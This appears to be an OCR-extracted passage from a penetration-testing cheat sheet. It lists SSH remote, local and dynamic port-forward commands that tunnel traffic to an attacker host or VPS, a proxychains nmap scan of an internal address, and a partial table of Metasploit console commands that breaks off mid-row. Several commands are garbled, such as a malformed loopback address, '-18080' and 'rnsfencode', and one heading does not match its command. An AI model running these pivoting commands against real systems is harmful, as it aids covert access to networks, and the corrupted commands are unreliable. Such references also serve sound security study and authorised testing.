 ### Create port forward on port 8080 and transfer to port 443 of the attacker

```text
ssh -R8080:12-.0.0.1:443 root@2.2.2.2.
```

### Using port forward on the attacker's port 8080 and transferring information using ssh tunnel and port 3300 3.3.3.3

```text
ssh -18080:3.3.3.3:443 root@2.2.2.2
```

### Dynamic tunnel using proxychain. Also, the file /etc/proxychain.conf to set the port \(1080\)

```text
ssh -D1080 root@2.2.2.2
In a separate terminal run:
proxychains nmap -sT -p80,443 3.3.3.3
```
# Create multi-hop ssh tunnel

```text
ssh -L 8888:127.0.0.1:8444 50mctf@MY_VPS
ssh -v -o PubkeyAuthentication=no -o PreferredAuthentications=password -o GatewayPorts=yes -fN -R *:8444:172.28.0.3:80 50mctf@MY_VPS
```

## Metasploit software


<table>
   <thead>
     <tr>
       <th style="text-align:left"><b>Command</b>
       </th>
       <th style="text-align:left"><b>Description</b>
       </th>
     </tr>
   </thead>
   <tbody>
     <tr>
       <td style="text-align:left">msfconsole r file.rc</td>
       <td style="text-align:left">Load resource file</td>
     </tr>
     <tr>
       <td style="text-align:left">msfcli | grep exploit/window</td>
       <td style="text-align:left">List of Windows exploits</td>
     </tr>
     <tr>
       <td style="text-align:left">rnsfencode -l</td>
       <td style="text-align:left">list of encodes</td>
     </tr>
     <tr>
       <td style="text-align:left">msfpayload -h</td>
       <td style="text-align:left">List of payloads</td>
     </tr>
     <tr>
       <td style="text-align:left">show exploits</td>
       <td style="text-align:left">Display exploits</td>
     </tr>
     <tr>